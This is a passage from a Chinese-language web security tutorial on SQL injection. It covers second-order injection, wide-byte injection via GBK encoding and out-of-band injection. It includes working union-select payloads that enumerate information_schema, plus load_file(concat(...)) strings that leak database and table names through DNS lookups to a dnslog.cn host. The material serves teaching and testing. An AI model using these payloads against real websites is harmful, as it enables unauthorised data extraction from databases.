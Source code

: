 6、**二次注入**  
  
二次注入是指已经存储的用户输入，被读取后再次进入到SQL查询语句中导致的注入。形成的原理大概是对于输入的数据进行了编码或者转义，在之后的代码中无法起作用，但是存储到数据库中又对数据进行了解码，存储了原本的格式，这导致后续取该数据使用时，拼接到SQL语句中，造成SQL注入。  
  
关键点：存入数据库的恶意数据并未被转义，取出时也未处理，直接拼接到SQL语句中执行。  
  
1）比如说用户注册时，用户名设置为 test' 在后续代码中被转义为 test\' 但是存储到数据库中为 test'，注册后返回用户ID：9  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RA4xe1AHHJRYLoKdFcVYBUVicMPISXwbNb2lI21rNkTYRBEcfVS2sUtA/640?wx_fmt=png&from=appmsg "")  
  
2）接下来可以通过用户id：9来查询对应用户的信息，此时会从数据库中取出用户名，并拼接到SQL语句进行执行，由于对从数据库中取出的数据未做处理，直接就是以 test' 进行拼接，导致SQL注入漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RGxtTCOsMTN35efNpCic6ibuWSHTzczVqymGOFwH3v70pZka9hXycjGvw/640?wx_fmt=png&from=appmsg "")  
  
所以后续的利用只需在注册时写入恶意语句，然后访问对应id触发。  
  
7、**宽字节注入**  
  
宽字节注入的原理是使转义符\失效，条件是数据库  
编码使用GBK  
，GBK编码占2个字节，多于1个字节，因此称为宽字节。比如说输入id=1%27会被转义：id=1%5c%27，其中%5c是转义符\的编码；  
  
这时我们输入id=1%df%27就会被转义：id=1  
%df%5c  
%27，如果在GBK编码下，  
%df  
%  
5c这两个字节就是一个GBK码，即繁体字：  
  
“連”；这样一来转义符就没了，单引号就有效了，自然就造成了SQL注入。  
  
关键点：  
%df%5c  
在GBK编码下是一个繁体字  
  
1）只需在会被转义的符号比如 ' " 前加上%df即可实现宽字节注入  
```
?id=1%df'

?id=1%df' order by 3--+

?id=-1%df' union select 1,(select column_name from information_schema.columns where table_schema=(select database()) and table_name=(select table_name from information_schema.tables where table_schema=(select database()) limit 1,1) limit 0,1),3,4,5,6--+
```  
  
8、**带外注入**  
  
对于布尔注入和延时注入，耗时巨大，在能使用load_file()函数的情况下，可以使用该函数读取远程文件，可以请求外部则可能存在带外注入。  
  
load_file()函数的参数为地址，遵循  
UNC命名，由三个部分组成- 服务器名, 共享名, 和一个可选的文件路径：\\xxxx\xx\x；  
  
关键函数：  
load_file()、concat()  
```
获得数据库名：
?id=-1' union select 1,load_file(concat('\\\\',(select database()),'.1rnpwi.dnslog.cn\\xxx'))--+

获得表名：
?id=-1' union select 1,load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema="security" limit 0,1),'.1rnpwi.dnslog.cn\\xxx'))--+
```  
  